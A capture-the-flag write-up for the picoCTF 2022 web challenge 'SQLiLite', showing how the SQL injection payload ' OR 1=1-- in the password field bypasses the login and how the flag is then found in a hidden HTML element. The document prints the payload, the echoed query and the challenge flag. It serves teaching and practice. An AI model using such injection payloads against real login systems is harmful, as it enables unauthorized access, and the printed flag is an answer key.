


# SQLiLite - picoCTF 2022 - CMU Cybersecurity Competition
Web Exploitation, 200 Points

## Description


 
## SQLiLite Solution

By browsing the [website](http://saturn.picoctf.net:53389/) from the challenge description we can see the following web page:



If we are trying to log in using ```admin:admin``` we get the following web page:


We can see the SQL query, We can simply use SQL injection ```' OR 1=1--``` as a password, By using this SQL injection we get:



Now, By observing the source code we get the flag ```picoCTF{L00k5_l1k3_y0u_solv3d_it_33d32a56}```:
```html
<pre>username: admin
password: &#039; OR 1=1--
SQL query: SELECT * FROM users WHERE name=&#039;admin&#039; AND password=&#039;&#039; OR 1=1--&#039;
</pre><h1>Logged in! But can you see the flag, it is in plainsight.</h1><p hidden>Your flag is: picoCTF{L00k5_l1k3_y0u_solv3d_it_33d32a56}</p>
```